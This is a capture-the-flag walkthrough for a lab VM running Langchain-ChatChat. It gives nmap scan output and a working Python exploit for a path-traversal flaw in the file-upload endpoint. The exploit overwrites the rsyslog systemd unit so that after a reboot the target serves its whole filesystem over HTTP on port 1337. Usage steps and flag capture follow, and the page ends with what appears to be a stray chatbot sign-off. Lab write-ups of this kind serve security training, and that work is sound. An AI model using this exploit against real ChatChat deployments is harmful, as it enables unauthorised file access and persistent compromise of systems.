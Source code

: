 ## ChainWalk Walkthrough

### Setup

From your **attacker machine**, navigate to the `walkthrough` directory and ensure you have the **target VM's IP address**.
### Enumeration
By default chatchat runs on port 8501, with the API service running on 7861.
```
▶ nmap -Pn MACHINE_IP -sV -p 8501,7861,1337,22 -vv
Starting Nmap 7.80 ( https://nmap.org ) at 2025-07-03 14:19 IST
NSE: Loaded 45 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 14:19
Completed Parallel DNS resolution of 1 host. at 14:19, 0.07s elapsed
Initiating Connect Scan at 14:19
Scanning MACHINE_IP [4 ports]
Discovered open port 8501/tcp on MACHINE_IP
Discovered open port 1337/tcp on MACHINE_IP
Discovered open port 7861/tcp on MACHINE_IP
Completed Connect Scan at 14:19, 1.20s elapsed (4 total ports)
Initiating Service scan at 14:19
Scanning 3 services on MACHINE_IP
Completed Service scan at 14:20, 58.80s elapsed (3 services on 1 host)
NSE: Script scanning MACHINE_IP
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 14:20
Completed NSE at 14:20, 0.02s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 14:20
Completed NSE at 14:20, 1.05s elapsed
Nmap scan report for MACHINE_IP
Host is up, received user-set (0.00035s latency).
Scanned at 2025-07-03 14:19:33 IST for 61s

PORT     STATE    SERVICE REASON      VERSION
22/tcp   filtered ssh     no-response
1337/tcp open     http    syn-ack     SimpleHTTPServer 0.6 (Python 3.10.12)
7861/tcp open     unknown syn-ack
8501/tcp open     http    syn-ack     Tornado httpd 6.5.1
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port7861-TCP:V=7.80%I=7%D=7/3%Time=68664424%P=x86_64-pc-linux-gnu%r(Gen
SF:ericLines,76,"HTTP/1\.1\x20400\x20Bad\x20Request\r\ncontent-type:\x20te
SF:xt/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\nInvalid\x20HT
SF:TP\x20request\x20received\.")%r(GetRequest,90,"HTTP/1\.1\x20307\x20Temp
SF:orary\x20Redirect\r\ndate:\x20Thu,\x2003\x20Jul\x202025\x2008:49:40\x20
SF:GMT\r\nserver:\x20uvicorn\r\ncontent-length:\x200\r\nlocation:\x20/docs
SF:\r\nConnection:\x20close\r\n\r\n")%r(HTTPOptions,CB,"HTTP/1\.1\x20405\x
SF:20Method\x20Not\x20Allowed\r\ndate:\x20Thu,\x2003\x20Jul\x202025\x2008:
SF:49:40\x20GMT\r\nserver:\x20uvicorn\r\nallow:\x20GET\r\ncontent-length:\
SF:x2031\r\ncontent-type:\x20application/json\r\nConnection:\x20close\r\n\
SF:r\n{\"detail\":\"Method\x20Not\x20Allowed\"}")%r(RTSPRequest,76,"HTTP/1
SF:\.1\x20400\x20Bad\x20Request\r\ncontent-type:\x20text/plain;\x20charset
SF:=utf-8\r\nConnection:\x20close\r\n\r\nInvalid\x20HTTP\x20request\x20rec
SF:eived\.")%r(DNSVersionBindReqTCP,76,"HTTP/1\.1\x20400\x20Bad\x20Request
SF:\r\ncontent-type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
SF:se\r\n\r\nInvalid\x20HTTP\x20request\x20received\.")%r(DNSStatusRequest
SF:TCP,76,"HTTP/1\.1\x20400\x20Bad\x20Request\r\ncontent-type:\x20text/pla
SF:in;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\nInvalid\x20HTTP\x20
SF:request\x20received\.")%r(SSLSessionReq,76,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\ncontent-type:\x20text/plain;\x20charset=utf-8\r\nConnection:
SF:\x20close\r\n\r\nInvalid\x20HTTP\x20request\x20re
ceived\.")%r(TerminalS
SF:erverCookie,76,"HTTP/1\.1\x20400\x20Bad\x20Request\r\ncontent-type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\nInvalid\x20
SF:HTTP\x20request\x20received\.")%r(TLSSessionReq,76,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\ncontent-type:\x20text/plain;\x20charset=utf-8\r\nCon
SF:nection:\x20close\r\n\r\nInvalid\x20HTTP\x20request\x20received\.")%r(K
SF:erberos,76,"HTTP/1\.1\x20400\x20Bad\x20Request\r\ncontent-type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\nInvalid\x20HTTP
SF:\x20request\x20received\.")%r(SMBProgNeg,76,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\ncontent-type:\x20text/plain;\x20charset=utf-8\r\nConnection
SF::\x20close\r\n\r\nInvalid\x20HTTP\x20request\x20received\.");

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.49 seconds
```
Screenshot for 8501 web UI
![image](https://github.com/user-attachments/assets/3a4622f7-3265-48f4-9344-c4fb3be01d57)

Screenshot for API docs
![image](https://github.com/user-attachments/assets/f780373b-fb0e-4c94-a22c-e32b104333ee)

### Exploit Logic

`exploit.py`:

```python
import requests

url = "http://127.0.0.1:7861/v1/files?purpose=assistants"

service_path = "../../../../../../../../../../etc/systemd/system/rsyslog.service"

service_content = """[Unit]
Description=Evil Python HTTP Server
After=network.target

[Service]
Type=simple
ExecStart=/usr/bin/python3 -m http.server 1337
ExecStartPost=/bin/echo "HTTP server running on port 1337"
Restart=always

[Install]
WantedBy=multi-user.target
"""

files = {
    "file": (service_path, service_content, "text/plain")
}
r = requests.post(url, files=files)
print("[+] rsyslog.service hijacked and uploaded:", r.status_code)
```

This exploit targets a **vulnerable file upload endpoint** exposed by Langchain-ChatChat on port `7861`. Specifically:

* The endpoint `/v1/files?purpose=assistants` is vulnerable to **path traversal** (CVE-2025-6855).
* By crafting a filename with `../../../../../`, the script **escapes the upload directory** and writes a file to `/etc/systemd/system/rsyslog.service`.
* Instead of the legitimate system logging service, the overwritten `rsyslog.service` starts a **Python HTTP server** on port `1337` each time the system boots.

Because the VM has no login access, this approach works by **modifying the system startup behavior**. After reboot, the Python server runs automatically — no user login is required.

Once running, this server serves the filesystem from the root directory, giving remote access to files.

### Usage

1. Run the exploit from your attacker machine:

   ```bash
   python3 exploit.py
   ```

2. If successful, you’ll see:

   ```
   [+] rsyslog.service hijacked and uploaded: 200
   ```

3. Now, **reboot the VM** (power it off and turn it back on). No need to log in.


### Step 5: Access the Filesystem

Once the VM restarts, visit the following from your attacker machine:

```
http://<TARGET_VM_IP>:1337
```

You will see a **directory listing of the target machine’s filesystem**, served via Python’s built-in HTTP server.
![image](https://github.com/user-attachments/assets/1bc83065-ba0e-4f28-bbbc-e22f1553beff)

---

### Step 6: Capture the Flag

Browse to the following path in the web interface:

```
home/vboxuser/chainwalk/build/flag_{CHAINWALK}.txt
```

Download or view the file to capture the flag.

---

Let me know if you want this converted into a `README.md`, PDF, or HTML format.
